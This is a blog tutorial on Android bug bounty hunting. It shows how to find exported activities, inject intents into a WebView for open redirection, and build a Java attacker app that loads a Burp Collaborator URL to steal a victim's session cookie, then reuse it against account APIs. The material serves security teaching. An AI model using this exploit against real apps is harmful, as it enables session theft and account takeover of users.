 ```yaml
---
title: One Approach towards Android Bug Bounty
author: nirajkharel
date: 2026-01-01 14:10:00 +0800
categories: [Mobile Pentesting, Android]
tags: [Mobile Pentesting, Android]
render_with_liquid: false
---
```



Last month, I explored bug bounties on Android applications and discovered a couple of issues related to Exported Activities and Intent Injections. These vulnerabilities were either unreported or reported in a way that underestimated their impact, categorizing them as low severity or informational.

In this blog, I aim to share insights into different methods for identifying such issues and strategies to escalate their impact to High or Critical severity. Please note that this is not the only approach but rather one specific type of vulnerability I focused on during my tests.

So What is Exported Activity? Intent Injection? Insecure WebView? Account Takeover?

I am not going to describe what an activity is but Android application is designed to be sandboxed and so its activities. Unless exported, activities of one particular application cannot be accessed by any other application on the device.

Activities are not exported by default, but there are multiple ways for an activity to be exported. One being **"exported=true"** and another being **"\<intent-filter\>"**. On the activity where intent filter has been defined, its exported by default unless the **"exported=false"** has been defined. Most of the times, the static analyser or tools that we use only covers the **"exported=true"** part and you might want to check the intent filter manually while you go through the Android Manifest file.

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-1.png">

One approach of identifying exported activities is manual as defined earlier and next one can be through a drozer through the drozer.

Observe that two activities are exported on the application.

```bash
dz> run app.activity.info -a com.root3d.intentinjection
Attempting to run shell module
Package: com.root3d.intentinjection
  com.root3d.intentinjection.MainActivity
    Permission: null
  com.root3d.intentinjection.PrivacyPolicy
    Permission: null
```

So what does an exported activity means? It means that it can be accessed by any other application. Is it vulnerable right now? may be, may not be. But if you reported this as an issue, it will probably led to either informative/NA or Low if you are lucky.

So how can you leverage the impact for this? Navigate to the corresponding activity, on this case, **PrivacyPolicy**. 
<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-2.png">

Here comes the intent injection to open redirection part. But how?

As you read about the open redirection on the mobile application, it surely means that its an webapplication/website based attack or vulnerability. How how can this be possible on the mobile application. This means we need to check if the web URL or the web application has been referenced or integrated into the mobile application which is done through the almighty **webview**. So always look if the webview has been implemented. You can either search for the webview keyword or see if it has been initialised as we see on the **highlight-1**.

```java
private WebView webview;

// Or,
webview.loadUrl();
```

Lets skip the highlight-2 and highlight-3 for a timebeing and jump into 4 and 6. There you can see that it checks for the extra string parameter. What does **intent.getStringExtra** means? It means while the activity is called or triggered, it also looks if any other extra parameters or value has been passed on it in-exact the parameter named as **privacy-url**. 

The highlight-6 shows that it checks if the privacy-url is provided while calling the activity and if that contains any string character or not. If yes, it calls the **webview.loadUrl()** function with the **privacy-url** as the parameter. Why does it do so? Does it happens often? It might not be simple as it has been shown on the vulnerable application but there would be many instances on the activity where it requires extra parameter, generally while loading the privacy policies, terms and conditions and oauth-url as well.

So we know that it takes extra parameter and loads the webview as per we pass it as an intent. So why not load the arbitrary URL into it.

Use the below ADB command:

But what happens if you directly trigger the activity without passing any extra parameters? It will work as intended and would open the legitimate URL.
```
adb shell am start -n com.root3d.intentinjection/com.root3d.intentinjection.PrivacyPolicy
```

Execute the same above command with the extra string as mentioned below and see if you can load arbitrary URL
```
adb shell am start -n com.root3d.intentinjection/com.root3d.intentinjection.PrivacyPolicy --es privacy-url "https://google.com"
```

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-3.png">


See now you have successfully performed open redirection on the mobile application. But what happends when you submit this issue for your bounties. Nothing much as adb can access any private activity on the mobile application and also you have rooted your device right?

Example, we do have additional one activity called **HomeActivitycom.root3d.intentinjection.HomeActivity** but it has not been exported. Let's try if we can load the arbitrary URL into that activity using adb.

```bash
adb shell am start -n com.root3d.intentinjection/com.root3d.intentinjection.HomeActivity --es blog-url "https://google.com"
```

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-4.png">

Was that vulnerable? May be, you can report it mentioning that the URL validation has not been performed. Will you get the bounties? I would have given you, but they, no.

You need to do proper exploitation inorder to be it a valid and you cannot exploit this issue until there is something like Intent Redirection vulnerability.

So never just collect the activity and execute the adb command, see, analyse and then only report if that is exported.

Lets forget this HomeActivity part and focus on the PrivacyPolicy one. So before your andreline rush to submit the report, we need to be able to explain them that any other application would be able to load the URL into their application. Until then our issue would not be applicable as they would not accept the issue if you need a physical access into the device and for adb to be able to execute, you would need.

So, lets develop an android application i.e. attacker application. What does this below code do?

Its a simple application which opens the vulnerable activity and will send an extra intent as privacy-url to load "https://google.com" into that activity.

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent intent = new Intent();
        intent.setClassName("com.root3d.intentinjection","com.root3d.intentinjection.PrivacyPolicy");

        intent.putExtra("privacy-url","https://google.com");
        intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);

        startActivity(intent);
    }

}
```

You can create an empty activity on your Android studion and paste this code. Replace the package name and activity name with the vulnerable one and pass the accepted parameter. You should be able to perform an open redirection to the vulnerable app through this app once executed.

The code block `intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);` might be needed sometime as while executing the attacker application, instead of loading the arbitrary URL into the vulnerable application, sometimes it loads to the current attacker application. So it launches the activity in a new task separate from the current task.

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-5.png">  


Until now they would treat this issue as Low or Medium because its just an open redirection. 

It might be the good idea to report until now if you have no option to login or register into the application. Example if the application needs a valid government document of hulululu country. 

But if incase you can login or register into the application and it any of the activity is vulnerable to intent injection to open redirection, you can probably exfiltrate the session cookie of the user through the vulnerable application. Why? Because it sends a GET request to the arbitrary URL with the session cookie on the request header and believe me, most of the application do. To restrict the application to send the session cookie along it needs to load the URL using this method **loadUrlWithoutCookies(view, url);** which is hardly implemented on the application.

So instead of loading your fancy portfolio into the webview. You can develop the android application as per below to send the session cookie into your controlled domain. For example Burp Collaborator.

This code is similar as above but just the modification on the URL.

```java
public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent intent = new Intent();
        intent.setClassName("com.root3d.intentinjection","com.root3d.intentinjection.PrivacyPolicy");

        intent.putExtra("privacy-url","https://f1hsbzbz62ixdg783ucnuwu2jtpkda1z.oastify.com");
        intent.addFlags(Intent.FLAG_ACTIVITY_NEW_TASK);

        startActivity(intent);
    }

}
```

Now the attacker application that you have created can exfiltrate the session cookie and then you can now use that session cookie as a victim user.

<img alt="" class="bf jp jq dj" loading="lazy" role="presentation" src="https://raw.githubusercontent.com/nirajkharel/nirajkharel.github.io/master/assets/img/images/android-bug-6.png">

But do not just end here because you haven't done anything with the session cookie, go through the application source code, identify the API endpoints like for example **/delete/users** **/update/profile** **/update/email** **/api/profile** and try to provide an impact on the Confidentialy, Integrity and Availability as well. Check if you can get the profile details, check if you can modify the user details like email address, mobile numbers, and also check if you can delete the current user by using the session cookie.

On this way you can have the maximum impact on the application.

Please note that the blogs has been paraphrased using ChatGPT. Why? I would like to write another blog on the time that I adjust my grammar.